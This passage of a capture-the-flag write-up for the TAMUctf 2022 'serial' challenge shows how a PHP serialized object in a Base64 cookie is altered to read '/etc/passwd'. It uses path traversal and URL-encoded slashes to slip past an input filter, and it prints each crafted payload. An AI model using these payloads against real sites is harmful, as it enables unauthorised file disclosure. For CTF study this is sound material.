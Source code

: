 The cookie value was then decoded as Base64 using [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)&input=VHpvM09pSkhaWFJRWVdkbElqb3hPbnR6T2pRNkltWnBiR1VpTzNNNk1UQTZJbWx1WkdWNExtaDBiV3dpTzMwPQ) and revealed that the file to be returned by the page `index.html` is included in the cookie, preceded by the number of characters of the file name `s:10`.

```text
// encoded cookie
Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTA6ImluZGV4Lmh0bWwiO30=

// decoded cookie
O:7:"GetPage":1:{s:4:"file";s:10:"index.html";}
```

As the flag is located at `/etc/passwd`, the file name was changed in the cookie and encoded back as Base64 using [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTE6Ii9ldGMvcGFzc3dkIjt9).

```text
// plain text
O:7:"GetPage":1:{s:4:"file";s:11:"/etc/passwd";}

// Base64 encoded
Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTE6Ii9ldGMvcGFzc3dkIjt9
```

The cookie was updated at the page and an error message was returned, revealed the current directory as `/var/www/html/`.

![tamuctf-2022-serial-2.jpg]({{ site.url }}{{ site.baseurl }}/assets/posts/tamuctf-2022-serial-2.jpg)

The file name was then changed to `../../../etc/passwd` and encoded as Base64 using [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTk6Ii4uLy4uLy4uL2V0Yy9wYXNzd2QiO30).

```text
// plain text
O:7:"GetPage":1:{s:4:"file";s:19:"../../../etc/passwd";}

// Base64 encoded
Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTk6Ii4uLy4uLy4uL2V0Yy9wYXNzd2QiO30=
```

The cookie was updated at the page and another error message was returned, seems like the input was forbidden by the admin.

![tamuctf-2022-serial-3.jpg]({{ site.url }}{{ site.baseurl }}/assets/posts/tamuctf-2022-serial-3.jpg)

All slashes `/` was replaced by `%2f` to escape the input checking. The cookie was encoded as Base64 using [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6Mjc6Ii4uJTJmLi4lMmYuLiUyZmV0YyUyZnBhc3N3ZCI7fQ).

```text
// plain text
O:7:"GetPage":1:{s:4:"file";s:27:"..%2f..%2f..%2fetc%2fpasswd";}

// Base64 encoded
Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6Mjc6Ii4uJTJmLi4lMmYuLiUyZmV0YyUyZnBhc3N3ZCI7fQ==
```
